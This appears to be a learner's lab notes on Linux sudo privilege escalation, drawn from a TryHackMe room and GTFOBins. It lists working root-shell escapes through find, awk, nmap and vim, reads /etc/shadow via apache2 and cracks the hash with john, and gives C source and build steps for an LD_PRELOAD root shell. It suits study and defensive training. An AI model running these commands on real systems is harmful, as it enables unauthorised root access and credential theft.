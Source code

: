 #Linux #PrivEsc #sudo #GTFOBins #Find #AWK #nmap #vim #LD_PRELOAD  #gcc #C #john #Apache #hashcat #/etc/shadow #wget 


# **Sudo Shell Escaping**
#sudo #GTFOBins #Find #AWK #nmap #vim

[GTFOBins](https://gtfobins.github.io/)

[Linux PrivEsc Playground](https://tryhackme.com/room/privescplayground)

- Example if we can run `find` as `sudo`: `sudo find . -exec /bin/sh \; -quit`
- This gets us a root shell

## **Detection**﻿
Linux VM

1. In command prompt type: `sudo -l`
2. From the output, notice the list of programs that can run via `sudo`.

## **Exploitation**
Linux VM

1. In command prompt type any of the following:
	a. `sudo find /bin -name nano -exec /bin/sh \;`
	b. `sudo awk 'BEGIN {system("/bin/sh")}'`
	c. `echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse`
	d. `sudo vim -c '!sh'`

---

# **Intended Functionality**
#sudo #john #Apache #hashcat #/etc/shadow #wget 

More [examples](https://touhidshaikh.com/blog/2018/04/abusing-sudo-linux-privilege-escalation/)

## **Detection**
Linux VM

1. In command prompt type: `sudo -l`
2. From the output, notice the list of programs that can run via `sudo`.

## **Exploitation**
Linux VM

1. In command prompt type: `sudo apache2 -f /etc/shadow`
2. From the output, copy the root hash.

Attacker VM  

1. Open command prompt and type: `echo '[Pasted Root Hash]' > hash.txt`
2. In command prompt type: `john --wordlist=/usr/share/wordlists/nmap.lst hash.txt`
3. From the output, notice the cracked credentials.

---

# **LD_PRELOAD**
#LD_PRELOAD #sudo #gcc #C
## **Detection**
Linux VM

1. In command prompt type: `sudo -l`
2. From the output, notice that the `LD_PRELOAD` environment variable is intact.

## **Exploitation**

1. Open a text editor and type:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>


void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");

}
```

2. Save the file as `x.c`
3. In command prompt type: `gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles`
	- *Note: must use tabs not spaces in C code*
4. In command prompt type: `sudo LD_PRELOAD=/tmp/x.so apache2`
5. In command prompt type: `id`

---

# CTF Challenge

[[EasyCTF - THM]]

- The box was easy however, it was unstable.

[dirsearch](https://github.com/maurosoria/dirsearch)

[Exploit-DB for Simple CMS](https://www.exploit-db.com/exploits/46635)

